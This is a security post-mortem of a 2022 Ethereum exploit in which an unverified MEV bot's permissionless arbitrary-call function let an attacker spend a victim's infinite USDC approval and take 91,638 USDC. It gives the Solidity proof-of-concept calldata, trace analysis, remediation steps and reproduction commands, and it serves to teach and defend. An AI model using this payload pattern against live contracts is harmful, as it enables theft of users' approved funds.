



# MEV Bot `0x0AD8…afd4` — Arbitrary-Call Router Drains a Victim's Standing USDC Approval

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo contains several
> unrelated PoCs that do not whole-compile, so this one was extracted).
> Full verbose trace: [output.txt](output.txt).
> Verified source for the abused token (USDC implementation) is included:
> [sources/FiatTokenProxy_A0b869/FiatTokenProxy.sol](sources/FiatTokenProxy_A0b869/FiatTokenProxy.sol).
> The vulnerable contract itself (`0x0AD8…afd4`) is **unverified** on-chain — only
> its bytecode and the exploited function selector are known.

---

## Key info

| | |
|---|---|
| **Loss** | **91,638.11 USDC** (~$91.6K) — the victim's entire USDC balance |
| **Vulnerable contract** | MEV bot / router `0x0AD8229D4bC84135786AE752B9A9D53392A8afd4` — [unverified](https://etherscan.io/address/0x0AD8229D4bC84135786AE752B9A9D53392A8afd4) |
| **Abused token** | USDC `FiatTokenProxy` — [`0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48`](https://etherscan.io/address/0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48#code) |
| **Victim (approval granter)** | [`0x211B6a1137BF539B2750e02b9E525CF5757A35aE`](https://etherscan.io/address/0x211B6a1137BF539B2750e02b9E525CF5757A35aE) |
| **Attacker EOA / recipient** | [`0xAE39A6c2379BEF53334EA968F4c711c8CF3898b6`](https://etherscan.io/address/0xAE39A6c2379BEF53334EA968F4c711c8CF3898b6) |
| **Attack tx** | [`0x674f74b30a3d7bdf15fa60a7c29d96a402ea894a055f624164a8009df98386a0`](https://etherscan.io/tx/0x674f74b30a3d7bdf15fa60a7c29d96a402ea894a055f624164a8009df98386a0) ([Phalcon](https://phalcon.blocksec.com/tx/eth/0x674f74b30a3d7bdf15fa60a7c29d96a402ea894a055f624164a8009df98386a0)) |
| **Chain / fork block / date** | Ethereum mainnet / 15,926,096 / ~Nov 9, 2022 |
| **Compiler** | PoC under `^0.8.10`; vulnerable contract unverified |
| **Bug class** | Arbitrary external call with attacker-controlled target+calldata → standing-approval theft |

---

## TL;DR

The contract at `0x0AD8…afd4` is a generic "MEV bot / swap router" that exposes a
function — selector **`0x090f88ca`** — which takes a caller-supplied `bytes` blob and
**executes it verbatim as a call against a caller-supplied token address**. There is
**no access control** on this entry point and **no validation** that the forwarded
calldata is a benign swap.

Because the router itself is a frequent counterparty for swaps, victims had granted it
**infinite ERC-20 approvals** (the standard router UX). The exploit weaponizes that
trust: the attacker simply asks the router to execute

```
USDC.transferFrom(victim, attacker, USDC.balanceOf(victim))
```

The router is `msg.sender` of that `transferFrom`, the victim's allowance to the router
is `type(uint256).max`, so the transfer succeeds and the victim's **entire USDC balance
(91,638.11 USDC)** is moved to the attacker in a single call. The router is acting as a
**confused deputy**: its standing approvals are spent on behalf of an arbitrary,
unauthenticated caller.

---

## Background — what the contract is

`0x0AD8…afd4` is an unverified MEV/arbitrage bot contract. Such bots are typically
wired up so that an off-chain searcher hands them an opaque action payload
(`token, otherToken, flags…, bytes data`) and the contract performs the swap/route by
forwarding `data` to a target. Two design facts make this class of contract dangerous:

1. **It holds, or is approved to spend, user/router funds.** To execute swaps efficiently
   the bot is granted ERC-20 allowances (here, the victim approved USDC to it with an
   *infinite* allowance — the on-chain slot reads `type(uint256).max`).
2. **It forwards arbitrary calldata.** The dispatched function (`0x090f88ca`) treats one
   of its arguments as a raw `bytes` payload and calls into a token contract with it.

If both are true and the entry point is permissionless, anyone can direct the bot's
spending power at any approval the bot holds. That is exactly what happened.

The abused token is plain USDC. USDC is an upgradeable proxy
([FiatTokenProxy](sources/FiatTokenProxy_A0b869/FiatTokenProxy.sol)) delegating to
implementation `0x4350…02dd` (`FiatTokenV2_1`). USDC itself has **no bug** — its
`transferFrom` behaves correctly. The flaw is entirely in the router that lets a
stranger choose `transferFrom`'s arguments while spending the router's allowance.

---

## The exploited interface

The PoC reconstructs the on-chain calldata exactly
([test/MEV_0ad8_exp.sol:26-35](test/MEV_0ad8_exp.sol#L26-L35)):

```solidity
bytes memory payload = abi.encodeWithSelector(
    0x090f88ca,
    address(USDC),   // arg0: token the router will call
    address(WETH),   // arg1: (a second token — part of the bot's swap ABI)
    0,               // arg2: unused flag in this attack
    1,               // arg3: unused flag in this attack
    abi.encodeWithSelector(             // arg4: the RAW bytes the router executes
        IERC20.transferFrom.selector,   // 0x23b872dd
        victim,                         // from = the approval granter
        attacker,                       // to   = the attacker
        USDC.balanceOf(victim)          // amount = the victim's ENTIRE balance
    )
);
vulnerableContract.call(payload);       // permissionless, no auth required
```

Decoding the head of the calldata word-by-word (from [output.txt:16](output.txt#L16)):

| Word | Value | Meaning |
|------|-------|---------|
| selector | `0x090f88ca` | the router's "execute action" entry point |
| arg0 | `0xA0b8…eB48` | **token to call = USDC** |
| arg1 | `0xC02a…56Cc2` | WETH (second leg of the bot's swap ABI; not load-bearing here) |
| arg2 | `0` | flag |
| arg3 | `1` | flag |
| arg4 | offset → `bytes` len 100 | the inner payload below |
| inner sel | `0x23b872dd` | **`transferFrom`** |
| inner[0] | `0x211B…35aE` | `from` = **victim** |
| inner[1] | `0xAE39…98b6` | `to` = **attacker** |
| inner[2] | `0x15560e9ff9` = 91,638,112,249 | `amount` = **victim's full USDC balance** |

The router takes arg0 (USDC) as the call target and arg4 as the calldata, and performs
`USDC.call(transferFrom(victim, attacker, balance))` from its own context.

> **Note:** the *vulnerable contract's* Solidity is not verified on-chain, so the snippet
> above is the **attacker's input** to it, not the router's internal source. The trace
> proves the router's behavior: it emitted no logic of its own — it simply relayed the
> `transferFrom` call to USDC (see the nested `FiatTokenProxy::fallback → transferFrom`
> sub-call at [output.txt:20-28](output.txt#L20-L28)).

---

## Root cause — why it was possible

A privileged spender (the router) executed an **unauthenticated, attacker-defined
external call**. Three independent properties had to coincide, and all three did:

1. **Permissionless arbitrary-call dispatch.** Entry point `0x090f88ca` has no
   `onlyOwner` / searcher whitelist; `vulnerableContract.call(payload)` from a fresh EOA
   succeeds. The caller fully controls both the *target* (arg0 = USDC) and the *calldata*
   (arg4 = `transferFrom(...)`).
2. **The router is `msg.sender` of the forwarded call.** Because the router relays the
   payload itself, every ERC-20 allowance ever granted *to the router* becomes spendable
   by whoever crafts the payload. ERC-20 `transferFrom` authenticates the *spender*
   (the router), never the ultimate initiator.
3. **A live, oversized approval existed.** The victim had granted USDC allowance of
   `type(uint256).max` to the router (the on-chain allowance slot reads all-`f`s before
   the attack — [output.txt:25](output.txt#L25)). Infinite approval means the single
   sweep is unbounded by anything except the victim's balance.

This is the textbook **confused-deputy / arbitrary-call** vulnerability: a contract with
delegated spending authority will execute any instruction handed to it, so its authority
is only as safe as its *least* trusted caller — which here is "anyone."

USDC's `transferFrom` did everything correctly: it checked the allowance (router →
victim was infinite), debited the allowance by 91,638.11, debited the victim's balance to
0, and credited the attacker. The protocol guarantee USDC offers ("a spender can move
funds up to its allowance") was honored; the router squandered that guarantee.

---

## Preconditions

- A victim has an **outstanding ERC-20 approval to the router** (`allowance(victim, router) > 0`;
  here `= type(uint256).max`). This is satisfied for any address that ever interacted with
  the bot and did the usual "approve infinite" step.
- The victim **holds a balance** of the approved token (91,638.11 USDC at the fork block).
- The router's arbitrary-call entry point is **reachable without authentication** (it is).

No flash loan, no price manipulation, no special timing. The attack is a single,
zero-risk call; the only "capital" needed is gas. It is repeatable against **every**
address that approved this router for **any** token, until each victim revokes.

---

## Step-by-step attack walkthrough (ground truth from the trace)

token = USDC (6 decimals). All values from [output.txt](output.txt).

| # | Action | Trace ref | Effect (USDC, 6dp) |
|---|--------|-----------|--------------------|
| 0 | **Read victim balance** `USDC.balanceOf(victim)` | [L12-15](output.txt#L12) | returns **91,638.112249** — used as the sweep amount |
| 1 | **Call router** `0x0AD8…afd4.090f88ca(USDC, WETH, 0, 1, transferFrom(victim, attacker, 91,638.112249))` | [L16](output.txt#L16) | permissionless dispatch begins |
| 2 | (router's own swap-bookkeeping) `WETH.transferFrom(Exploit, USDC, 0)` — 0-value no-op | [L17-19](output.txt#L17) | harmless; part of the bot's normal flow |
| 3 | **The theft** router → `USDC.transferFrom(victim, attacker, 91,638.112249)` | [L20-28](output.txt#L20) | victim balance `91,638.112249 → 0`; allowance `∞ → ∞ − 91,638.112249`; attacker credited |
| 4 | (router) `WETH.transferFrom(USDC, router, 0)` + `WETH.approve(Exploit, 0)` — 0-value no-ops | [L29-34](output.txt#L29) | harmless cleanup |
| 5 | **Read attacker balance** `USDC.balanceOf(attacker)` | [L36-39](output.txt#L36) | returns **91,639.112249** (1 USDC pre-seed + stolen 91,638.112249) |

Storage deltas inside the `transferFrom` ([output.txt:23-26](output.txt#L23)) prove the sweep:

| Slot | Before | After | Meaning |
|------|--------|-------|---------|
| `…f95985` (attacker balance) | `0x0f4240` = **1.000000** | `0x15561de239` = **91,639.112249** | attacker credited +91,638.112249 |
| `…55abdd9a` (router→victim allowance) | `0xff…ff` = **∞** | `0xff…6006` | infinite allowance debited by 91,638.112249 |
| `…018e56948` (victim balance) | `0x15560e9ff9` = **91,638.112249** | `0` | victim fully drained |

### Profit accounting (USDC)

| | Amount |
|---|---:|
| Attacker balance before | 1.000000 (pre-seed) |
| Attacker balance after | 91,639.112249 |
| **Net stolen** | **91,638.112249 USDC** |

The PoC logs `Attacker's profit: 91639 USDC` because it prints
`balanceOf(attacker)/1e6` (integer division), which rounds the attacker's *total* balance
down to 91,639 — the actual theft is **91,638.11 USDC** (the victim's entire holding).

---

## Diagrams

### Sequence of the attack



### Confused-deputy data flow



### Why the allowance, not the balance, is the attack surface



---

## Remediation

1. **Never forward arbitrary calldata while holding allowances.** A contract that is
   approved to spend user funds must never expose a generic
   `execute(target, bytes data)` style entry point. Restrict the router to a fixed,
   audited set of operations (e.g., specific DEX `swap` calls with validated parameters).
2. **Authenticate the dispatcher.** If arbitrary-call functionality is genuinely required,
   gate it behind `onlyOwner` / a searcher allowlist so a stranger cannot direct the
   contract's spending power.
3. **Whitelist call targets and selectors.** Reject any forwarded payload whose target is
   an ERC-20 the router holds approvals for, and/or whose selector is
   `transfer`/`transferFrom`/`approve`. The router should only ever *call swap venues*,
   never raw token-movement functions chosen by the caller.
4. **Use pull-then-act, not standing approvals.** Prefer `Permit2`/`permit` single-use
   approvals or transfer-into-the-router-then-swap patterns so no perpetual, unbounded
   allowance sits exposed.
5. **Users: revoke and minimize approvals.** Approve exact amounts, not `type(uint256).max`,
   and revoke approvals to bots/routers after use (e.g., via `revoke.cash`). Any address
   that approved this router for *any* token remained exposed until it revoked.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo
fails to whole-compile under `forge test`):

```bash
_shared/run_poc.sh 2022-11-MEV_0ad8_exp --mt testHack -vvvvv
```

- RPC: a **mainnet archive** endpoint is required (the fork pins block 15,926,096 from
  Nov 2022). `foundry.toml` uses an Infura mainnet endpoint; any archive provider that
  serves historical state at that block works.
- Result: `[PASS] testHack()` — the attacker's USDC balance reads 91,639 after the sweep
  (1 USDC pre-seed + 91,638.11 stolen).

Expected tail:

```
Ran 1 test for test/MEV_0ad8_exp.sol:Exploit
[PASS] testHack() (gas: 79325)
Logs:
  Attacker's profit: 91639 USDC

Suite result: ok. 1 passed; 0 failed; 0 skipped
```

---

*Reference attacker analysis: https://twitter.com/Supremacy_CA/status/1590337718755954690
(MEV bot arbitrary-call approval drain, Ethereum, ~$91.6K USDC).*
